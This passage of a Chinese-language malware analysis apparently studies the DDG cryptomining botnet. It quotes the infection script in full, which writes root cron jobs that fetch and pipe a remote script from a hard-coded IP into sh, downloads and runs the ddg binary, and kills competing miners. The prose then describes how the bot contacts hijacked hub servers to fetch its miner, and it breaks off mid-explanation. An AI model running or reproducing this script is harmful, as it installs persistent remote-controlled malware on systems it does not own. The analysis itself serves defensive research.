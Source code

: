 ```
export PATH=$PATH:/bin:/usr/bin:/usr/local/bin:/usr/sbin

echo "*/5 * * * * curl -fsSL http://218.248.40.228:8443/i.sh | sh" &gt; /var/spool/cron/root  
echo "*/5 * * * * wget -q -O- http://218.248.40.228:8443/i.sh | sh" &gt;&gt; /var/spool/cron/root  
mkdir -p /var/spool/cron/crontabs  
echo "*/5 * * * * curl -fsSL http://218.248.40.228:8443/i.sh | sh" &gt; /var/spool/cron/crontabs/root  
echo "*/5 * * * * wget -q -O- http://218.248.40.228:8443/i.sh | sh" &gt;&gt; /var/spool/cron/crontabs/root

if [ ! -f "/tmp/ddg.2021" ]; then  
    curl -fsSL http://218.248.40.228:8443/2021/ddg.$(uname -m) -o /tmp/ddg.2021
fi

if [ ! -f "/tmp/ddg.2021" ]; then  
    wget -q http://218.248.40.228:8443/2021/ddg.$(uname -m) -O /tmp/ddg.2021
fi

chmod +x /tmp/ddg.2021 &amp;&amp; /tmp/ddg.2021


if [ ! -f "/tmp/imWBR1" ]; then  
    curl -fsSL http://218.248.40.228:8443/imWBR1 -o /tmp/imWBR1 --compressed
fi

ps auxf | grep -v grep | grep Circle_MI | awk '`{`print $2`}`' | xargs kill  
ps auxf | grep -v grep | grep get.bi-chi.com | awk '`{`print $2`}`' | xargs kill  
ps auxf | grep -v grep | grep hashvault.pro | awk '`{`print $2`}`' | xargs kill  
ps auxf | grep -v grep | grep nanopool.org | awk '`{`print $2`}`' | xargs kill  
ps auxf | grep -v grep | grep minexmr.com | awk '`{`print $2`}`' | xargs kill  
ps auxf | grep -v grep | grep /boot/efi/ | awk '`{`print $2`}`' | xargs kill  
#ps auxf | grep -v grep | grep ddg.2006 | awk '`{`print $2`}`' | kill
#ps auxf | grep -v grep | grep ddg.2010 | awk '`{`print $2`}`' | kill
```

### 第二阶段

ddg 样本中内置了一个 **hub_iplist.txt** 文件，其中包含了上百个 `hub_ip:8443` 的列表。经我们排查，这些 hub_ip 对应的主机，多是常规网站服务器，都被攻击者入侵而沦为攻击者的肉鸡。

在这个阶段，ddg 会依次尝试连接 hub_iplist.txt 里的 hub_ip，如果成功连接某个 hub_ip ，ddg 就会访问 `http://&lt;hub_ip&gt;:8443/wnTKYg` 下载对应的 Miner 程序 wnTKYg 并启动（如果本机 CPU 不支持 **AES-NI**，还会下载 **wnTKYg.noaes**）。ddg 尝试连接 hub_ip 的过程抓包如下：

[![](https://p0.ssl.qhimg.com/t01a97770095e69fbf4.png)](https://p0.ssl.qhimg.com/t01a97770095e69fbf4.png)

ddg.xxx 与 ss2480.xxx 样本均由 Golang 编写而成。ddg 与 hub_ip 通信，通过一个 Golang 第三方 Stream Multiplexing 库 [Smux](https://github.com/xtaci/smux) 完成。ddg 用了 Smux 的默认配置：<br>[![](https://p3.ssl.qhimg.com/t0172fe58aab9f81c39.png)](https://p3.ssl.qhimg.com/t0172fe58aab9f81c39.png)

所以在 ddg 从 hub_ip 下载 Miner 并启动后的 [KeepAlive](https://github.com/xtaci/smux/blob/ebec7ef2574b42a7088cd7751176483e0a27d458/session.go#L284) 阶段，就会每隔 10s 向已连接的 hub_ip 发 2 个数据包：
